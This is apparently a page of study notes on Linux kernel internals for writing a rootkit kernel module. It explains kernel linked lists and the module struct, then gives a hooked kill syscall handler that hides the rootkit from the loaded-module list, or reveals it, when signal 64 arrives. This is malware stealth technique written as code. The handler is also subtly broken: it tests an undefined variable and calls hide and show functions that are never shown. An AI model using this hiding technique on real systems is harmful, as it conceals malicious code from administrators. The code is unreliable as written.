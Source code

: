   - each linked list entry does not know it's index, only what is in front and behind it
    - therefore adding/removing/inserting an item in a linked list is easy because we can just update pointers, do not have to resize arrays, etc.
  - kernel uses lots of linked lists:

    ```C
         // include/linux/types.h:

         struct list_head {
             // no `val` entry, instead the `list_head` struct is included as a field within another struct that holds the objects linked tg in the kernel
             struct list_head *next, *prev;
         }
    ```

- every loaded kernel module has a `THIS_MODULE` object set up for it and available as a macro:

```C
    #ifdef MODULE
    extern struct module __this_module;
    #define THIS_MODULE (&__this_module)
    #else
    #define THIS_MODULE ((struct module *)0)
    #endif
```

- `THIS_MODULE` is a pointer to a `module` struct (defined in `include/linux/module.h`)

  ```C
      struct module {
          enum module_state state;

          struct list_head list; // member of list of modules, meaning we have a linked list

          char name[MODULE_NAME_LEN]; // unique handle for this module

          // ...
      }
  ```

- can use `list_entry()` function to look at the prev and next loaded kernel modules from our rootkit LKM

- can use signals to communicate with rootkit - send `64` signal to toggle the module as hidden or revealed:

```C
static short hidden = 0;
asmlinkage int hook_kill(const struct pt_regs *regs) {
    void showme(void);
    void hideme(void);

    int sig = regs->si;

    if ((si == 64) && (hidden ==0)) {
        printk(KERN_INFO "rootkit: hiding rootkit!\n");
        // before calling `hideme()` (which deletes our kernel module from the list) we must save our current position so that `showme()` can put us back in the right place later (can save this in a pointer to a `list_head` struct)
        hideme();
        hidden = 1;
    } else if ((sig == 64) && (hidden == 1)) {
        printk(KERN_INFO "rootkit: revealing rootkit!");
        showme();
        hidden = 0;
    }
    else
        return orig_kill(regs);
}
```